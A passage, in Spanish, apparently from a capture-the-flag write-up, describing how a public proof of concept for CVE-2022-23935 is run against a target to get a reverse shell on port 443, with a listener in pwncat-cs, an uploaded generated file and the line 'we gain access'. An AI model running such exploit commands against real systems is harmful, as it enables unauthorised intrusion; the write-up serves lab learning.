 Este PoC automáticamente se pone en escucha por el puerto 443 pero podemos generar el payload y luego ponernos nosotros en escucha con `pwncat-cs`
```shell
$ sudo python3 CVE-2022-23935.py 10.10.14.85 443
```

Subimos el archivo que genera.
![Write-up Image](images/Screenshot_9.png)

¡Y ganamos acceso!